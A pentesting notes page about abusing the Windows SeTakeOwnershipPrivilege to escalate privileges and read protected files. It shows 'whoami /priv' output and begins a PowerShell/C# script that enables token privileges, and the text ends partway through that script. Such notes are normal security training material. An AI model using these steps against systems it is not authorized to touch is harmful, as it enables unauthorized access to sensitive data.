

repository: amandaguglieri/hackinglife · page: setakeownershipprivilege/index.html · generator: mkdocs

---
title: SeTakeOwnershipPrivilege
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - windows
  - privilege
  - SeTakeOwnershipPrivilege
---
# 🅾 SeTakeOwnershipPrivilege

[SeTakeOwnershipPrivilege](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/take-ownership-of-files-or-other-objects) grants a user the ability to take ownership of any "securable object," meaning Active Directory objects, NTFS files/folders, printers, registry keys, services, and processes. This privilege assigns [WRITE_OWNER](https://docs.microsoft.com/en-us/windows/win32/secauthz/standard-access-rights) rights over an object, meaning the user can change the owner within the object's security descriptor.

While it is rare to encounter a standard user account with this privilege, we may encounter a service account.

We may  find ourselves in a scenario in an Active Directory environment where we can assign this right to a specific user that we can control and leverage it to read a sensitive file on a file share.

```powershell-session
whoami /priv
```

With this privilege, a user could take ownership of any file or object and make changes that could involve access to sensitive data, `Remote Code Execution` (`RCE`) or `Denial-of-Service` (DOS).

Output:

```powershell-session
Privilege Name                Description                                              State
============================= ======================================================= ========
SeTakeOwnershipPrivilege      Take ownership of files or other objects                Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                                Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set                          Disabled
```



**1.** Let's enable the permission. We will use the [EnableAllTokenPrivs.ps1 script](https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1):

```
## All Credit goes to Lee Holmes (@Lee_Holmes on twitter).  I found the code here https://www.leeholmes.com/blog/2010/09/24/adjusting-token-privileges-in-powershell/
$definition = @'
using System;
using System.Collections.Generic;
using System.Diagnostics;
using System.Linq;
using System.Runtime.InteropServices;

namespace Set_TokenPermission
{
    public class SetTokenPriv
    {
        [DllImport("advapi32.dll", ExactSpelling = true, SetLastError = true)]
        internal static extern bool AdjustTokenPrivileges(IntPtr htok, bool disall,
        ref TokPriv1Luid newst, int len, IntPtr prev, IntPtr relen);
        [DllImport("advapi32.dll", ExactSpelling = true, SetLastError = true)]
        internal static extern bool OpenProcessToken(IntPtr h, int acc, ref IntPtr phtok);
        [DllImport("advapi32.dll", SetLastError = true)]
        internal static extern bool LookupPrivilegeValue(string host, string name, ref long pluid);
        [StructLayout(LayoutKind.Sequential, Pack = 1)]
        internal struct TokPriv1Luid
        {
            public int Count;
            public long Luid;
            public int Attr;
        }
        internal const int SE_PRIVILEGE_ENABLED = 0x00000002;
        internal const int SE_PRIVILEGE_DISABLED = 0x00000000;
        internal const int TOKEN_QUERY = 0x00000008;
        internal const int TOKEN_ADJUST_PRIVILEGES = 0x00000020;
        public static void EnablePrivilege()
        {
            bool retVal;
            TokPriv1Luid tp;
            IntPtr hproc = new IntPtr();
            hproc = Process.GetCurrentProcess().Handle;
            IntPtr htok = IntPtr.Zero;
